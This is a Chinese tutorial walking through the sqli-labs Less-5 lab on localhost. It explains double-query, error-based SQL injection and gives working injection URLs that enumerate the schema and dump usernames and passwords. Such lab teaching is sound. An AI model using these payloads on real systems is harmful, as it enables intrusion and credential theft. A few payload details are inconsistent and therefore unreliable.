


## 练习开始


首先打开http://127.0.0.1/Less-5/?id=1


less-5是基于错误的GET单引号变形字符型注入，位置在where之后且后跟limit


核心的语句在于
```
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo '<font size="5" color="#FFFF00">';
  	echo 'You are in...........';
  	echo "<br>";
    	echo "</font>";
  	}

```

和之前的less-1的课程的查询语句一样，不一样的是本次不会直接输出报错内容了


`
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo "<font size='5' color= '#99FF00'>";
  	echo 'Your Login name:'. $row['username'];
  	echo "<br>";
  	echo 'Your Password:' .$row['password'];
  	echo "</font>";
  	}
`


测试用的payload
```
") and 1=1 %23 返回正确
") and 1=1 %23 返回错误

```

**%23和--+等价**


针对该题可以用盲注的方式搞定，根据本题标题，双注入 还是用显错式的方式


双查询注入的理解有点麻烦，先讲一下子查询，看一个简单的例子：
Select concat((select database()));

其中的select database()就是一个子查询

双查询注入需要理解mysql内置的四个函数

rand():该用于产生0（包含）到1（不包含）的随机数，


floor():floor(x)该函数返回X的最大整数值，但不能大于X


Count():汇总函数


concat():链接两个字符串


group by:根据(by)一定的规则进行分组(Group)


双注入的原理是当在一个聚合函数，比如count函数后面如果使用分组语句就会把查询的一部分以错误的形式显示出来。在双注入的时候count(*), floor(rand()*2), group by 缺一不可，同时注意表中的记录要多于三条
`
SELECT floor(rand()*2);
`

该函数从里向外看。rand() 返回大于0小于1的小数，乘以2之后就成了小于0小于2了。然后对结果进行取证。就只能是0或1了。也就是这个查询的结果不是1，就是0


`
SELECT CONCAT((SELECT database()), FLOOR(RAND()*2));
`
先看最里面的SELECT database() 这个就返回数据库名，这里就是security了。然后FLOOR(RAND()*2)这个上面说过了。不是0，就是1.然后把这两个的结果进行concat连接，那么结果不是security0就是security1了


最常见的查询方式是
`
select count(*), concat('~',(select user()),'~', floor(rand()*2))as a from users group by a;
`


派生表的查询方式
`
select 1 from (select count(*), concat('~',(select user()),'~', floor(rand()*2)) as a from information_schema.tables group by a)x;
`


## 手工注入

###获取当前数据库

`
http://127.0.0.1/Less-5/?id=1'
`


看到语句出错，因为双注入查询利用的就是**print_r(mysql_error());**回显错误信息

获取当前数据库版本
`
http://127.0.0.1/Less-5/?id=' union select 1, count(*), concat('~',(select version()),'~', floor(rand()*2)) as a from users group by a --+
`

获取当前用户
`
http://127.0.0.1/Less-5/?id=' union select 1, count(*), concat('~',(select users()),'~', floor(rand()*2)) as a from users group by a --+
`



### 判断当前数据库数量


`
http://127.0.0.1/Less-5/?id=' union select 123, count(*), concat('~',(select count(*) from information_schema.schemata where table_schema="security" ),'~', floor(rand()*2)) as a from information_schema.tables group by a --+

`

一共五个数据库

判断第一个数据库
`
http://127.0.0.1/Less-5/?id=' union select 123, count(*), concat('~',(select schema_name from information_schema.schemata limit 1,1),'~', floor(rand()*2)) as a from information_schema.tables group by a --+
`

通过修改limit之后的第一个参数逐步遍历数据库


### 检查security数据库的表


`
http://127.0.0.1/Less-5/?id=' union select 123, count(*), concat('~',(select count(*) from information_schema.tables where table_schema="security" ),'~', floor(rand()*2)) as a from information_schema.tables group by a --+
`


可以知道security有四个表


通过修改limit之后的第一个参数逐步遍历数据库的表
`
http://127.0.0.1/Less-5/?id=' union select 123, count(*), concat('~',(select table_name from information_schema.tables where table_schema="security" limit 0,1 ),'~', floor(rand()*2)) as a from information_schema.tables group by a --+
`


### 检查security数据库中user表的列

判断列的数量
`
http://127.0.0.1/Less-5/?id=' union select 123, count(*), concat('~',(select count(*) from information_schema.columns where table_schema='security' and table_name="users"),'~', floor(rand()*2)) as a from information_schema.tables group by a --+

`


检查列的内容
`
http://127.0.0.1/Less-5/?id=' union select 123, count(*), concat('~',(select column_name from information_schema.columns where table_schema='security' and table_name="users" limit 1,1),'~', floor(rand()*2)) as a from information_schema.tables group by a --+

`


### 爆出数据

`
http://127.0.0.1/Less-5/?id=' union select 123, count(*), concat('~',(select concat_ws(":",username,password) from users limit 1,1),'~', floor(rand()*2)) as a from information_schema.tables group by a --+
`


双注入的原理解释
[链接一](http://www.myhack58.com/Article/html/3/7/2016/73471.htm)
[链接二](https://www.cnblogs.com/dplearning/p/7355595.html)


